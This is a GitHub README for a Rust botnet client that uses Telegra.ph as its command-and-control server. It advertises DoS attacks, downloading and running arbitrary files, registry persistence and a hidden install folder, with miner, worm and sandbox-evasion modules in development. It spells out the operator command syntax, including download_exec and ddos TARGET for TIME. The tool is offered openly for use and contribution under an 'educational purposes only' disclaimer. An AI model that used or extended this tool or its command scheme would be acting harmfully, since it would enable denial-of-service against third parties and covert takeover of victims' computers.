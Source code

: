 # Rust Botnet
Example botnet client which uses Telegra.ph as C&C server.

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

### In development
* Bruteforce module.
* Sandbox & Virtual machine detector.
* Admin notification about new client.
* Miner module.
* Worm module.
* C&C server link / commands encryption.
* New module-based core architecture.
* Show message box to client.

Notice, that this is not production ready version. 
There are many bugs which are waiting to fix.

## Example & List of commands
Example of C&C server [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run file which is located at LINK_TO_FILE
* `ddos{split}TARGET{sep}TIME` - ddos TARGET for TIME seconds
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install botnet update which located at LINK_TO_FILE. Update will be installed only if botnet's file version is lower than VERSION
* `stop{split}` - you should use that command every time after executing other's ones
* `delete_botnet{split}` - delete botnet exe and it's registry notes from client's PC
* `exit{split}` - close botnet's executive file

## Help
If you need any help at all, feel free to post a issue.
 
## Contributing
Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

## License
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details

P.S. Better use i686-pc-windows-msvc to compile it.
